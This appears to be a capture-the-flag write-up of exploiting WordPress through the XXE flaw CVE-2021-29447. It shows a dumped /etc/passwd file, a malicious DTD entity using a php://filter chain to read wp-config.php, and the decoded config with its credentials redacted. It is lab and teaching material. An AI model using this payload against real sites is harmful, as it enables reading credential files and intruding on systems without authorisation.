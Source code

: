  ```sh linenums="1" hl_lines="27"
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    messagebus:x:106:110::/var/run/dbus:/bin/false
    uuidd:x:107:111::/run/uuidd:/bin/false
    {--REDACTED--}:x:1000:1000:CVE-2021-29447,,,:/home/{--REDACTED--}:/bin/bash
    sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
    mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
 ```

## <b>Exploiting Wordpress</b>

The next step is to enumerate the WordPress website on port 80 and obtain its `wp-config.php`. This file meets the requirement of the first objective in the current room. 

- [x] Use the vulnerability CVE-2021-29447 to read the wordpress configuration file.

By gaining access to the `wp-config.php` file, I can obtain sensitive data, such as database credentials, that can be used to further penetrate the system. I used same technique as follows by replacing the dtd file with

```dtd
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
```
<img id="image3" />

Here is the decoded Base64 file that answers these questions:

  - [x] what is the name of the database for WordPress? `Line 23`
  - [x] what are the credentials you found? (user:password) `Line 26 & 29`

```sh linenums="1" hl_lines="23 26 29"
 <?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', '{--REDACTED--}' );

/** MySQL database username */
define( 'DB_USER', '{--REDACTED--}' );

```